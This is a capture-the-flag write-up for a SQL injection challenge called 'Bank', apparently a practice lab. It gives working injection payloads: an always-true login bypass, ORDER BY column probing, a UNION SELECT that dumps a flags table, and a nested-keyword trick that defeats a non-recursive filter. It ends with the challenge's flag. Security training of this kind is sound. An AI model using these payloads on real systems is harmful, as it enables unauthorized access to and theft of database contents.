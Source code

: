 # Bank - SQLI

A clue is given to look at the flags table
`Try looking in the flags table. Columns: flag, value`

Putting in any input into the login form spits out the query we are manipulating.

`SELECT * FROM users WHERE username='myInput' AND password='myInput';`

Where `myInput` is the values we insert into the username and password field.

The first step is to try and break the query/find the database language we are using.
Adding in `'a` in both fields give 

`Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, bool given in /var/www/html/login.php on line 50`

mysql uses `--` as its comment syntax.

We can now leak the users table through inputting 

`' or 1=1 -- `

in the username.

The next step is to figure out the number of columns that we take from the users table

We can do that through trial and error, by using `ORDER BY 1-- ` to our existing leak.

The last working query is 

`' or 1=1 ORDER BY 3 -- `

Indicating that there are 3 columns in our first query.

We then UNION our second query for flags while match the number of columns

`' or 1=1 union SELECT flag, value, null from flags;-- `

BUT we find that our SELECT disappears.

`SELECT * FROM users WHERE username='' or 1=1 union flag, value, null from flags;-- ' AND password='1';`

We can conclude that there is some filtering happening.

We test if the filtering is recursive

`' or 1=1 union SELselectECT flag, value, null from flags;-- `

And its not which gives us our flag.
flag{3min3m_kind@_wa$hed}